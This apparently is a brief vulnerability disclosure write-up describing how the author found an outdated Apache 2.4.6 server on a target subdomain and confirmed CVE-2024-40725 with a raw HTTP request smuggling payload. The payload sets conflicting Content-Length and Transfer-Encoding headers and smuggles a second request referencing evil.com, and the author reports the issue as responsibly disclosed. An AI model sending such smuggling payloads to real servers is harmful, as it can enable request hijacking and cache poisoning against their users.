


# Outdated Apache

## Discovery

I was enumerating all the subdomains of a target, and noticed that one domain returned nothing but 403s. However, it revealed its version:



## Exploitation

Apache 2.4.6 is severely outdated, and has a ton of vulnerabilities for DoS and HTTP Request Smuggling. I was unable to get the CVE for RCE working, but figured that using any CVE would suffice in demonstrating that it is vulnerable.

I decided to go with CVE-2024-40725, which was a HTTP Request Smuggling attack for Apache HTTP Server versions 2.4.0 to 2.4.61. This was one of the **least disruptive** attacks I could use on this.

I used this payload:

```http
GET / HTTP/1.1
Host: vulnerable-host.com
Content-Length: 0
Transfer-Encoding: chunked

0


GET /evil/ HTTP/1.1
Host: vulnerable-host.com
User-Agent: smuggle-test
Location: evil.com
```

The response proved that it was vulnerable since it returned 2 responses:



Afterwards, I notified the relevant parties and this vulnerability was acknowledged!
